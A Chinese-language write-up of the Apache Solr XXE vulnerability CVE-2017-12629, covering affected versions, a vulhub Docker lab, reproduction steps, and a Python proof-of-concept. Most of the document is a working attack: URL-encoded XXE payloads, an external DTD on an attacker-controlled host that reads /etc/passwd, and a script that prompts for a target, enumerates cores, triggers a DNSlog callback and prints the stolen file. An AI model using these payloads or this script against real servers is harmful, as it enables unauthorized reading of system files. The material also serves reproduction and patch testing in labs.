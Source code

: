 # 

# Apache Solr XXE 漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

## 漏洞影响

```
Apache Solr < 7.1
Apache Lucene < 7.
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## 漏洞复现

先请求url地址获取 core 内容

http://xxx.xxx.xxx.xxx:8983/solr/admin/cores



![1](./images/202202090051449.png)



访问

```plain
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

![2](./images/202202090051557.png)

查看dnslog得到请求

![3](./images/202202090051396.png)在自己的服务器上写入一个可访问的XML文件，内容写入

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件

```plain
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fpeiqi.tech%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser

# 解码
/solr/demo/select?&q=<?xml version="1.0" ?><!DOCTYPE root[<!ENTITY % ext SYSTEM "http://peiqi.tech/1.dtd">%ext;%ent;]><r>&data;</r>&wt=xml&defType=xmlparser
```

![4](./images/202202090051367.png)

注意这里的payload进行了url编码,请求的文件为 http://peiqi.tech/1.dtd，有更多需求自行更改写入的xml文件

## 漏洞POC

```
# solr_xxe.dtd

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-

import requests
import sys
import json
import random

def POC_1(target_url):
    core_url = target_url + "solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        print('Core name: ', core_name)
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url):
    dns_payload = """solr/%s/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "%s"><a></a>'}&wt=xml""" % (core_name, dnslog_url)
    vuln_url = target_url + dns_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
        if "HTTP ERROR 500" in response.text:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
        else:
            print("\033[32m[o] 请查看dnslog响应, DNSlog利用Url为：" + vuln_url + "/config\033[0m")
    except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name):
    file_payload = """solr/{}/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.vps.here%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser""".format(core_name)
    vuln_url = target_url + file_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }

    response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
    if "nologin" in response.text:
        print("\033[32m[o] 漏洞成功利用, Url为：/config\033[0m \n", vuln_url )
        print("\033[32m[o] 响应为: \n \033[0m",response.text)
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)   
    dnslog_url = 'http://{}.your.dnslog.here'.format(core_name)
    POC_2(target_url, core_name, dnslog_url)
    POC_3(target_url, core_name)
```

![image-20220210161443057](./images/202202101614685.png)
